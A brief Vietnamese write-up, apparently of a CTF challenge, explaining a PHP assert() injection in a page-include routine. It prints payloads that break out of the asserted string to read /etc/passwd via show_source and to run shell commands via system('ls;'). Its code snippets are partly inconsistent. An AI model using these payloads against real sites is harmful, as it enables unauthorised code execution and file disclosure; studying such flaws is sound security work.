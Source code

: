 $file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;

Ví dụ bây giờ page là home thì dòng lệnh trên sẽ trở thành :

$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;

========>     $file = "home.php";
              assert(strpos('includes/home.php,'..')===false);
              // hàm strpos('includes/home.php,'..') ở đây kiểm tra vị trị xuất hiện đầu tiên của chuỗi '..' trong chuỗi 
              assert(...$file...) or die("Detected hacking!);
              require_once $file;

              assert(strpos('includes'' and die(show_source('/etc/passwd')) or '.php,'..')===false)

              Nhưng mà nó vẫn bị die(system("ls;"))


giải thích một chút về hàm system sẽ thực hiện command ls ở trong nó và liệt kê chúng và hàm die(system("ls;")) sẽ in ra các kết quả của system("ls;")
 và injection như này 

 ' and die(system("ls;")) or ' 
 nào mình rảnh mình viết thêm nhá có bài này quên nên viết lại á